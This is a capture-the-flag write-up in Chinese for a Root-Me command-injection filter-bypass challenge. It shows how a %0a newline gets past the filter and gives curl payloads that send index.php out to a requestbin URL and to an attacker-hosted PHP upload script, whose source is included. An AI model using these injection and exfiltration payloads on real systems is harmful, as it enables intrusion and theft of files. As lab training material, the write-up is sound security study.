



Root-Me [Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)
===

提供與 [03] 一樣的 ping 功能，但該題目不會顯示結果，指會告知語法錯誤，Ping 不 Ping 得到目標。

## 解題關鍵
1. CLI
2. curl
3. php

## 提示訊息
```
Find a vulnerability in this service and exploit it. Some protections were added.

The flag is on the index.php file.
```

## 解題方法
這題想了一些方法，發現指要加上常用的 `&`、`|`、`'` 都會回報 `Syntax Error`，最後發現使用 `%0a` 似乎會執行後方的指令，首先 `%0a` 是換行字元，透過換行的方式後續指令依然被執行，代表漏洞在這裡。  

經由簡單測試 `127.0.0.1 %0a curl https://requestbin.fullcontact.com/11p6b1m1?test`，發現確認有送訊息到 `requesbin` 上。  

  

原先構想的 Payload 如下（一），也可以兩行合併成一行（二）:

```BASH
127.0.0.1 %0a
data%3d$(<index.php) %0a
curl -X GET -G --data-urlencode "msg%3d$data" "https://requestbin.fullcontact.com/11p6b1m1"
```

```BASH
127.0.0.1 %0a
curl -X GET -G --data-urlencode "msg%3d$(<key.txt)" "https://requestbin.fullcontact.com/11p6b1m1"
```

結果嘗試了幾次之後，發現 `$`、`<` 都被過濾掉了...，尷尬到爆炸。  

最後想破頭，curl 有沒有辦法直接把檔案遞送出來，找到了 `-F` 的方法，但這部分還需要外部的伺服器支援，這邊申請免費的網路空間 [lionfree](https://lionfree.net)，申請完畢之後，在上面建立一個具有上傳功能的 php，原始碼如下。

```PHP
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded.";
} else {
    echo "Sorry, there was an error uploading your file.";
}
?>
```

接著改照一下原本的 Payload，兩行就搞定了。

```
ip=127.0.0.1 %0a
curl -v -X POST -F "fileToUpload=@./index.php" "http://mks.lionfree.net/upload.php"
```

送出後靜候佳音，解決該題。  

  

  


## Reference
https://stackoverflow.com/questions/4181703/how-to-concatenate-string-variables-in-bash  

https://blog.longwin.com.tw/2017/12/bash-shell-curl-send-urlencode-args-2017/  

https://blog.techbridge.cc/2019/02/01/linux-curl-command-tutorial/  

https://www.w3schools.com/php7/php7_file_upload.asp  

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)